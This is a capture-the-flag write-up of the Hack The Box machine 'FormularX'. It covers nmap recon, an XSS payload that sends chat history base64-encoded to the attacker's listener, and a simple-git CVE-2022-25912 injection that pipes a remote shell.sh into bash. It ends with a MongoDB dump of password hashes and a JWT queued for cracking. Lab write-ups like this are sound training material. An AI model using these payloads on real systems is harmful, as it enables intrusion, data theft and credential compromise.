# Write-up FormularX 
**Hackthebox**

## Recon
Using nmap tools: `nmap -sV -A --min-rate 15000 -v $ip -oN /opt/nmap/formularx`
```shell
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 5f:b2:cd:54:e4:47:d1:0e:9e:81:35:92:3c:d6:a3:cb (ECDSA)
|_  256 b9:f0:0d:dc:05:7b:fa:fb:91:e6:d0:b4:59:e6:db:88 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-favicon: Unknown favicon MD5: 496A37014B10519386B2904D1B3086BE
|_http-cors: GET POST
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_Requested resource was /static/index.html
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=3/12%OT=22%CT=1%CU=38765%PV=Y%DS=2%DC=T%G=Y%TM=65F0
OS:175E%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=10A%TI=Z%CI=Z%II=I%TS=A)
OS:SEQ(SP=103%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)SEQ(SP=FF%GCD=1%ISR=109%TI=
OS:Z%CI=Z%II=I%TS=A)OPS(O1=M53CST11NW7%O2=M53CST11NW7%O3=M53CNNT11NW7%O4=M5
OS:3CST11NW7%O5=M53CST11NW7%O6=M53CST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88
OS:%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M53CNNSNW7%CC=Y%Q=)T1(R=Y%DF
OS:=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z
OS:%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=
OS:Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%
OS:RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)
OS:IE(R=Y%DFI=N%T=40%CD=S)

Uptime guess: 46.071 days (since Fri Jan 26 02:07:55 2024)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=259 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1723/tcp)
HOP RTT       ADDRESS
1   279.52 ms 10.10.14.1
2   279.74 ms 10.10.11.6
```

When i analysis this site at port 80, i see it use nodejs, expressjs and auth with jwt.
- Use `gobuster` enumurate file and dir -> see /restricted/chat.js
- From that file you redirect to contact page, you see xxs vul in this
how to know
1. fill firstname and lastname at textarea fill `<img src=x onerror="document.location='http:<yourmachine>:<port>/`"/>`
2. Listen http server, you can use `php -S 0.0.0.0:<port>` or `python -m http.server <port>`
3. click send -> you see in your terminal our server is received the request
=> From chat.js, write the payload get info important from the server.

```shell
┌──(toan㉿kali)-[~]
└─$ cat test.js                         
const script = document.createElement('script');
script.src='/socket.io/socket.io.js';
document.head.appendChild(script);
script.addEventListener('load', function() {
const res = axios.get( /user/api/chat");
const socket = io('/',{withCredentials: true});
socket.on('message', (my_message) => {fetch("http://10.10.14.18:8888/?d=" + btoa(my_message))}) ;
socket.emit('client_message', 'history');
});
```
- Encode this payload, `cat test.js | base64`.

- the atob func will decode base64
`{"first_name":"a","last_name":"asdf","message":"<img src=x onerror=\"eval(atob('<payload encode base64>'))\">"}`
![img2](./img/img2.png)
```shell
┌──(toan㉿kali)-[~]
└─$ python -m http.server 8888
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
10.10.11.6 - - [12/Mar/2024 08:05:48] "GET /shell.js HTTP/1.1" 200 -
10.10.11.6 - - [12/Mar/2024 08:05:52] "GET /shell.js HTTP/1.1" 200 -
10.10.11.6 - - [12/Mar/2024 08:05:55] "GET /shell.js HTTP/1.1" 200 -
10.10.11.6 - - [12/Mar/2024 08:05:59] "GET /shell.js HTTP/1.1" 200 -
10.10.11.6 - - [12/Mar/2024 08:06:02] "GET /shell.js HTTP/1.1" 200 -
10.10.11.6 - - [12/Mar/2024 08:06:06] "GET /shell.js HTTP/1.1" 200 -
10.10.11.6 - - [12/Mar/2024 08:06:09] "GET /shell.js HTTP/1.1" 200 -
10.10.11.6 - - [12/Mar/2024 08:06:13] "GET /shell.js HTTP/1.1" 200 -
10.10.11.6 - - [12/Mar/2024 08:08:30] code 501, message Unsupported method ('OPTIONS')
10.10.11.6 - - [12/Mar/2024 08:08:30] "OPTIONS /?d=R3JlZXRpbmdzIS4gSG93IGNhbiBpIGhlbHAgeW91IHRvZGF5ID8uIFlvdSBjYW4gdHlwZSBoZWxwIHRvIHNlZSBzb21lIGJ1aWxkaW4gY29tbWFuZHM= HTTP/1.1" 501 -
10.10.11.6 - - [12/Mar/2024 08:08:30] code 501, message Unsupported method ('OPTIONS')
10.10.11.6 - - [12/Mar/2024 08:08:30] "OPTIONS /?d=SGVsbG8sIEkgYW0gQWRtaW4uVGVzdGluZyB0aGUgQ2hhdCBBcHBsaWNhdGlvbg== HTTP/1.1" 501 -
10.10.11.6 - - [12/Mar/2024 08:08:30] code 501, message Unsupported method ('OPTIONS')
10.10.11.6 - - [12/Mar/2024 08:08:30] "OPTIONS /?d=V3JpdGUgYSBzY3JpcHQgZm9yICBkZXYtZ2l0LWF1dG8tdXBkYXRlLmNoYXRib3QuaHRiIHRvIHdvcmsgcHJvcGVybHk= HTTP/1.1" 501 -
10.10.11.6 - - [12/Mar/2024 08:08:30] code 501, message Unsupported method ('OPTIONS')
10.10.11.6 - - [12/Mar/2024 08:08:30] "OPTIONS /?d=V3JpdGUgYSBzY3JpcHQgdG8gYXV0b21hdGUgdGhlIGF1dG8tdXBkYXRl HTTP/1.1" 501 -
10.10.11.6 - - [12/Mar/2024 08:08:30] code 501, message Unsupported method ('OPTIONS')
10.10.11.6 - - [12/Mar/2024 08:08:30] "OPTIONS /?d=TWVzc2FnZSBTZW50Ojxicj5oaXN0b3J5 HTTP/1.1" 501 -
10.10.11.6 - - [12/Mar/2024 08:08:34] code 501, message Unsupported method ('OPTIONS')
10.10.11.6 - - [12/Mar/2024 08:08:34] "OPTIONS /?d=R3JlZXRpbmdzIS4gSG93IGNhbiBpIGhlbHAgeW91IHRvZGF5ID8uIFlvdSBjYW4gdHlwZSBoZWxwIHRvIHNlZSBzb21lIGJ1aWxkaW4gY29tbWFuZHM= HTTP/1.1" 501 -
10.10.11.6 - - [12/Mar/2024 08:08:34] code 501, message Unsupported method ('OPTIONS')
10.10.11.6 - - [12/Mar/2024 08:08:34] "OPTIONS /?d=SGVsbG8sIEkgYW0gQWRtaW4uVGVzdGluZyB0aGUgQ2hhdCBBcHBsaWNhdGlvbg== HTTP/1.1" 501 -
10.10.11.6 - - [12/Mar/2024 08:08:34] code 501, message Unsupported method ('OPTIONS')
10.10.11.6 - - [12/Mar/2024 08:08:34] "OPTIONS /?d=V3JpdGUgYSBzY3JpcHQgZm9yICBkZXYtZ2l0LWF1dG8tdXBkYXRlLmNoYXRib3QuaHRiIHRvIHdvcmsgcHJvcGVybHk= HTTP/1.1" 501 -
10.10.11.6 - - [12/Mar/2024 08:08:34] code 501, message Unsupported method ('OPTIONS')
10.10.11.6 - - [12/Mar/2024 08:08:34] "OPTIONS /?d=V3JpdGUgYSBzY3JpcHQgdG8gYXV0b21hdGUgdGhlIGF1dG8tdXBkYXRl HTTP/1.1" 501 -
10.10.11.6 - - [12/Mar/2024 08:08:34] code 501, message Unsupported method ('OPTIONS')
10.10.11.6 - - [12/Mar/2024 08:08:34] "OPTIONS /?d=TWVzc2FnZSBTZW50Ojxicj5oaXN0b3J5 HTTP/1.1" 501 -
10.10.11.6 - - [12/Mar/2024 08:08:37] code 501, message Unsupported method ('OPTIONS')
.....
```

=>
```shell
R3JlZXRpbmdzIS4gSG93IGNhbiBpIGhlbHAgeW91IHRvZGF5ID8uIFlvdSBjYW4gdHlwZSBoZWxwIHRvIHNlZSBzb21lIGJ1aWxkaW4gY29tbWFuZHM=
SGVsbG8sIEkgYW0gQWRtaW4uVGVzdGluZyB0aGUgQ2hhdCBBcHBsaWNhdGlvbg=
V3JpdGUgYSBzY3JpcHQgZm9yICBkZXYtZ2l0LWF1dG8tdXBkYXRlLmNoYXRib3QuaHRiIHRvIHdvcmsgcHJvcGVybHk=
```
![img1](./img/img1.png)
=> you see subdomain `dev-git-auto-update.chatbot.htb`

- add this domain into `/etc/hosts`.type:  `echo "10.10.11.6 dev-git-auto-update.chatbot.htb"  | sudo tee -a /etc/hosts`. goto that site!
...

This page use `simple-git v3.14`, use can search internet this! It show [CVE-2022-25912](https://security.snyk.io/vuln/SNYK-JS-SIMPLEGIT-3112221).
I inject the payload by bash code though this vuls!.
`ext::sh -c curl% http://10.10.14.18:8888/shell.sh|bash`

![img 3](./img/img3.png)

- This project use mongodb, you type `mongo`  -> yah, from this you can interact with db, you can read the project, it is using testing db to save -> `use testing`.
```shell
use testing
switched to db testing
show collections
messages
users
db.users.find()
{ "_id" : ObjectId("648874de313b8717284f457c"), "name" : "admin", "email" : "admin@chatbot.htb", "password" : "$2b$10$VSrvhM/5YGM0uyCeEYf/TuvJzzTz.jDLVJ2QqtumdDoKGSa.6aIC.", "terms" : true, "value" : true, "authorization_token" : "Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySUQiOiI2NDg4NzRkZTMxM2I4NzE3Mjg0ZjQ1N2MiLCJpYXQiOjE3MTAyNDk2ODJ9.GW97zDBRfK4goXJakZ0WgqKBLj_CVpW_ir1mNXnp1-4", "__v" : 0 }
{ "_id" : ObjectId("648874de313b8717284f457d"), "name" : "frank_dorky", "email" : "frank_dorky@chatbot.htb", "password" : "$2b$10$hrB/by.tb/4ABJbbt1l4/ep/L4CTY6391eSETamjLp7s.elpsB4J6", "terms" : true, "value" : true, "authorization_token" : " ", "__v" : 0 }
``` 

The frank_dorky's password is encode, this is `bcrypt`. John or hashcat to decode it.
![img4](./img/img4.png) 

